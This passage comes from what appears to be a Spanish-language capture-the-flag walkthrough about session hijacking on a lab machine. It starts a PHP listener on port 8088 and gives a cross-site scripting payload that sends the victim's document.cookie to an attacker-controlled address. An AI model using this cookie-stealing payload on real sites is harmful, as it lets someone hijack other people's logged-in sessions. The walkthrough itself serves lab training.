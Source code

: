 <br>

Muy bien, encontramos un subdominio.

Para que podamos verlo, recuerda agregar el subdominio al archivo `/etc/hosts`.

Vamos a visitarlo:

<p align="center">
<img src="/assets/images/THL-writeup-elCliente/Captura7.png">
</p>

Encontramos un login, pero no tenemos credenciales.

Quizá podamos aplicarle fuerza bruta, sin embargo, esto es una clara pista de que debemos aplicar **Session Hijacking**.

| **Session Hijacking** |
|:---------------------:|
| *Session hijacking (o secuestro de sesión) es una técnica de ataque en la que un atacante toma control de la sesión activa de un usuario legítimo en un sistema o aplicación, sin necesidad de autenticarse.* |

<br>

Para aplicarlo, necesitamos otra vez el servidor de **PHP**, pero usaremos otro puerto:
```bash
php -S 0.0.0.0:8088
[Thu Oct 16 00:58:55 2025] PHP 8.4.11 Development Server (http://0.0.0.0:8088) started
```

Utilizaremos el siguiente payload:
```bash
<img src=x onerror="document.location='http://Tu_IP:8088/Cookie/'+document.cookie">
```

Escríbelo en el campo vulnerable y envía los datos:
